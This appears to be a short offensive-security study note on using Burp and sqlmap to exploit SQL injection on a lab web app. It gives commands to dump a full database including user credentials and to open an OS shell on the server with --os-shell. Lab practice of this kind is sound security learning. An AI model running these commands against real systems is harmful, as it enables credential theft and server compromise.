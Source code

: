 ```yaml
---
layout: post
title: sqlmap
titledate: 09/03/23
tags: ["infosec","offsec", "sql"]
---
```


first can intercept the POST request with burp to capture possible vuln params

run sqlmap on web app specifying url and vulnerable parameter

    $ sqlmap -u http://192.168.50.50/blindsqli.php?user=1 -p user

dump entire database including user creds

    $ sqlmap -u http://192.168.50.50/blindsqli.php?user=1 -p user --dump

time-base sqli are not preferred when interacting with a shell so we use union based attacks

we can intercept the POST request with burp that includes the vulnerable parameter and save it as a txt file post.txt

    $ sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"

here we invoke sqlmap with the r param pointing to our post request and p for the vuln parameter



